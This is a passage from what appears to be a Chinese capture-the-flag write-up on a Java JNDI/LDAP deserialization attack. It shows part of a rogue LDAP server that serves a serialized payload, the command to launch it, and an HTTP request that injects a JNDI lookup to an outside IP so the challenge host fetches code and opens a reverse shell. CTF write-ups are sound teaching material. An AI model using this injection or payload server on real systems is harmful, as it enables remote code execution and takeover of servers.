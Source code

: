 ```bash
                cbstring = cbstring.substring(0, refPos);
            }

            e.addAttribute("javaSerializedData", Base64.decode(payload));
            result.sendSearchEntry(e);
            result.setResult(new LDAPResult(0, ResultCode.SUCCESS));
        }
    }
}
```

‍

以 jar 的形式开启，并且传入序列化的值

```bash
java -jar LDAPServer.jar ip 1.txt
```

然后用 JNDI 去找 IP+PORT 即可成功反弹

‍

[![](assets/1708870136-31afd208458ed59e9b3f54842a8bf5b0.png)](https://zjacky-blog.oss-cn-beijing.aliyuncs.com/blog/202401181121789.png)​​

```bash
GET /{{urlenc(${jndi:ldap://152.136.46.28:6666/Evail})}} HTTP/1.1
Host: node5.anna.nssctf.cn:28379
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
```
